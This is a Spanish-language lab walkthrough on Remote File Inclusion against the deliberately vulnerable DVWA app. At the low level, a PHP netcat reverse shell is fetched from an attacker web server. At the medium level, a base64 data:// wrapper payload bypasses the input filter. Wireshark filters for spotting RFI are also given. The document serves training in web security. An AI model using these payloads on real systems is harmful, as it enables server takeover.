 La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

![](capturas/lfi-vs-rfi.png)


En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


# RFI en DVWA - Nivel Low
### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

-----------------------------------------------------------
Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```

---------------------------------------------

# RFI en DVWA - Nivel Medio
En el nivel medio vemos por el código que hace una validación de las entradas, impidiendo que se escriba http: ó https:
```
Medium File Inclusion Source
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

Para poder ejecutar la shell reversa ahora **no funcionará**:
-  Hacer una request "page=http://192.168.1.103/reverse.txt" ya que la convierte en "page=192.168.1.103/reverse.txt", lo que provoca que no funcione el RFI.
- Hacer bypass del tipo: %68%74%74%70%3A%2F%2F --> http://

Para saltar esta restricción necesitaremos usar wrappers de php. Un ejemplo sencillo para ver cómo funciona la técnica es:
```
Código php --> <?php phpinfo(); ?>
Codificación de ese código en Base64 --> PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data:application/x-httpd-php;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

Mi código para realizar varias acciones en el servidor que incluyen eliminar un archivo, crear un FIFO (named pipe), escuchar comandos a través de este pipe, y reenviar la salida a una conexión Netcat abierta, lo que me permite obtener una shell interactiva.:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f"); ?>
```

El código PHP codificado en Base64 es:
```
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Para usar este código en un ataque de RFI mediante el wrapper data://, insertaremos la cadena codificada en Base64 en la URL de la siguiente manera:
```
?data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Sin embargo, al probarlo en DVWA no funciona, devuelve un error:
![](capturas/remote-file-inclusion-10.png)

Este error de sintaxis suele ocurrir cuando PHP interpreta el código y encuentra un problema que impide su correcta ejecución. En este caso, parece ser un problema con cómo el código codificado en Base64 se decodifica y luego se evalúa como PHP. Específicamente, el mensaje de error sugiere que PHP no esperaba el token de cierre ?> al final de tu script, o podría haber un problema con la interpretación del código PHP una vez decodificado.

Una posible razón para este tipo de error es la inclusión de la etiqueta de cierre de PHP ?> al final del código, la cual en realidad no es necesaria en archivos que contienen únicamente código PHP. En algunos contextos, la presencia de esta etiqueta al final del script puede causar problemas, especialmente si después de la etiqueta se incluyen espacios en blanco o caracteres de nueva línea que PHP intenta ejecutar.

Dado que el mensaje de error indica un problema al final del archivo (es decir, después de decodificar el Base64),vamos a intentar remover la etiqueta de cierre ?> del código PHP antes de codificarlo en Base64. Esto ayudaría a prevenir cualquier problema que pueda surgir debido a contenido no deseado después de la etiqueta de cierre.

Código php - Codificación del Código en base 64 - Request RFI:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
```

Intentamos de nuevo RFI y ya comprobamos que funciona:
![](capturas/remote-file-inclusion-11.png)

